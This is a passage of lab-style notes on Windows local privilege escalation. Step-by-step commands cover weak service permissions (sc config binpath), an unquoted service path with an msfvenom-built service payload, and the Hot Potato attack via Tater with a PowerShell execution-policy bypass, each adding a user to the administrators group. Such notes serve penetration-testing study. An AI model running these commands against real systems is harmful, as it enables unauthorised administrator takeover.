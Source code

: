 
```
net localgroup administrators
```

### Service Escalation binPath

* Detection
* Windows VM
* Open command prompt and type:

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
```

* Notice that the output suggests that the user `User-PC\User` has the `SERVICE_CHANGE_CONFIG` permission.
* Exploitation
* Windows VM
* In command prompt type: `sc config daclsvc binpath= "net localgroup administrators user /add"`
* In command prompt type: `sc start daclsvc`
* It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

### Unquoted Service Path

* Detection
* Windows VM
* Open command prompt and type: `sc qc unquotedsvc`
* Notice that the `BINARY_PATH_NAME` field displays a path that is not confined between quotes.
* Exploitation
* Kali VM
* Open command prompt and type: `msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe`
* Copy the generated file, `common.exe`, to the Windows VM.
* Windows VM
* Place common.exe in `"C:\Program Files\Unquoted Path Service"`.
* Open command prompt and type: `sc start unquotedsvc`
* It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

### Hot Potato

* Exploitation
* Windows VM
* In command prompt type: `powershell.exe -nop -ep bypass`
* In Power Shell prompt type: `Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1`
* In Power Shell prompt type: `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`
* To confirm that the attack was successful, in Power Shell prompt type: `net localgroup administrators`

### Password Mining Escalation Configuration Files
